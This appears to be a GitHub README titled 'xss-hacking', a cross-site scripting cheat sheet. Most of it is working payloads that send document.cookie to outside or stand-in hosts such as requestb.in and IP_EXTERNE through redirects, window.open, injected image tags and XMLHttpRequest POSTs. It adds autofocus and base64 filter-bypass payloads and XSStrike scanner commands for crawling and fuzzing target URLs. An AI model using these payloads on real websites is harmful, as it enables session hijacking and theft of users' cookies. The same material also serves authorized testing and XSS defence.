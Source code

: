 # xss-hacking

## Payloads

### Document.location
```js
<script>document.location('http://IP_EXTERNE/'+document.cookie)</script>
<script>document.location.href = 'http://requestb.in/XXXXXX?cookies =' + document.cookie;</script>
```

### Window
```js
<script>window.open("http://monserveur/Cookie="+document.cookie)</script>
<script>window.location='http://monsite.free.fr/script.php?cookies='+(document.cookie);</script>
```

### Document.write
```js
<script>document.write('<img src="https://requestb.in/xxxxx?cookie="+document.cookie>admin</img>');</script>
admin"></i>)</span><script>document.write("<img src=http://requestb.in/XXXXX?cookie=".concat(encodeURI(document.cookie)).concat("/>"))</script><i>
```
```js
<script>var xhr = new XMLHttpRequest();xhr.open('POST', 'http://requestb.in/w0sw22w0', true);xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');xhr.send(document.cookie);</script>
```

### alert(1) in JS
```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

injecting inside of input tags
<input/onfocus=alert(0) autofocus>
<input/onfocus=alert`0` autofocus>
<input/onfocus=prompt`0` autofocus>
1'"><input/onfocus={alert`1`} autofocus> 
```

## XSStrike

Cross Site Scripting detection suite equipped with parsers
XSStrike analyses the response with multiple parsers and then crafts payloads
that are guaranteed to work by context analysis integrated with a fuzzing engine

### Documentation

* ![XSStrike Documentation](https://github.com/s0md3v/XSStrike/wiki/Usage)

### Classical GET
```python
python xsstrike.py -u "http://example.com/search.php?q=query"
```

### POST
```python
python xsstrike.py -u "http://example.com/search.php" --data "q=query"
```

### Path payloads
```python
python xsstrike.py -u "http://example.com/search/form/query" --path
```

### Crawl and test
```python
python xsstrike.py -u "http://example.com/page.php" --crawl
```

### Load payloads from file and test them
```python
python3 xsstrike.py -u "http://example.com/page.php?q=query" -f /path/to/file.txt
```

### Find hidden parameters
```python
python xsstrike.py -u "http://example.com/page.php" --params
```

## Resources

https://html5sec.org/

https://gbhackers.com/top-500-important-xss-cheat-sheet/

https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

https://github.com/s0md3v/AwesomeXSS/